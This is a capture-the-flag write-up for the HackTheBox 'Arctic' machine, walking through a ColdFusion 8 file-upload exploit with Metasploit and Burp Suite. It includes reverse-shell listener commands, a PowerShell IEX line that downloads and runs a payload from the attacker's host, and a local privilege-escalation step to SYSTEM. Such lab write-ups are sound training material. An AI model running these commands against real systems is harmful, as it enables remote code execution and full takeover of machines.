 # HackTheBox Arctic Writeup

![date](https://img.shields.io/badge/date-01.17.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-845-brightgreen.svg)

## Summary
Exploit: https://arrexel.com/coldfusion-8-0-1-arbitrary-file-upload/

ColdFusion 8 has an arbitrary file upload vulnerability that is fairly easy to exploit. 
There is a Metasploit module available to do the job. However, due to the request delay to 
ihe target, the Metasploit module fails to run and must be intercepted in Burp Suite, then 
requested through Burp Repeater. A standalone proof of concept was created for this writeup. 
Refer to the link above.

## root flag
```
FLAG{}
```

## Detailed solution

### Nmap target(10.10.10.11)

    > nmap -sC -sV -oA 10.10.10.11
Find suspicious port 8500, Adobe CodeFusion 8
    10.10.10.11:8500/CFIDE/administrator/

### Search exploits about coldfusion ans try to exploit.
    
    > searchsploit coldfusion

    > msfconsole

    msf > search coldfusion
    msf > use exploit/windows/http/coldfusion_fckeditor
    msf exploit(coldfusion_fckeditor) > show options
    msf exploit(coldfusion_fckeditor) > set RHOST 10.10.10.11
    msf exploit(coldfusion_fckeditor) > set RPORT 8500
    msf exploit(coldfusion_fckeditor) > run
    msf exploit(coldfusion_fckeditor) > show advanced options
    msf exploit(coldfusion_fckeditor) > set VERBOSE true
    msf exploit(coldfusion_fckeditor) > run

### Use Burp Suite to intercept requests and redirect them to target
Use Burp Suite to intercept requests and send them through Burp Repeater.
    
    Open 'Proxy' panel and select 'Options', select 'Add', 
    set Bind to port 8500, 
    set Redirect to host: 10.10.10.11
    set Redirect to port: 8500
    select OK

Fullfill browser address line with 'localhost:8500'. Then Set exploit/windows/http/coldfusion_fckeditor RHOST to 127.0.0.1    

    msf exploit(coldfusion_fckeditor) > set RHOST 127.0.0.1
    msf exploit(coldfusion_fckeditor) > run

Msfconsole's default listening port is 4444 on vpn ip address. But because of request 
default delay time is 30 seconds, so msfconsole cannot get reverse meterpreter shell 
successfully. SO YOU SHOULD GET REVERSE SHELL MANNUALLY.

    > ncat -lvnp 4444
    > 10.10.10.11:8500/userfiles/file/K.jsp
    
Getting a reverse shell is not enough. You should get a meterpreter shell.

    > /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp 10.10.14.2 31337
    > msfconsole -r unicorn.rc

How to copy reverse shell to target machine(10.10.10.11)
    
    > cat powershell_attack.txt | xclip
    > vim exploit.html

Then paste shellcode from system clipboard to exploit.html, and delete the powershell 
cmd prompt.

    > python -m SimpleHTTPServer
    10.10.10.11 > powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2:8000/exploit.html')"
    
Check if you've got the root access.

    meterpreter > sysinfo 
    meterpreter > getuid

### Post exploit

####Collect x86 exploits.    

    msf exploit(handler) > search suggest
    msf exploit(handler) > use post/multi/recon/local_exploit_suggester
    msf post(local_exploit_suggester) > show options
    msf post(local_exploit_suggester) > set SESSION 1
    msf post(local_exploit_suggester) > run
    
####Collect x64 exploits.

    meterpreter > ps
    meterpreter > migrate [x64 version conhost.exe PID]

    meterpreter > sysinfo 
    
You should now get x64 system id.

    msf post(local_exploit_suggester) > run
    msf post(local_exploit_suggester) > use exploit/windows/local/ms10_092_schelevator
    msf exploit(ms10_092_schelevator) > show options
    msf exploit(ms10_092_schelevator) > set SESSION 1
    msf exploit(ms10_092_schelevator) > set LHOST 10.10.14.2
    msf exploit(ms10_092_schelevator) > run

    meterpreter > getuid
    
If you see "NT AUTHORITY\SYSTEM", it means you get the root access.
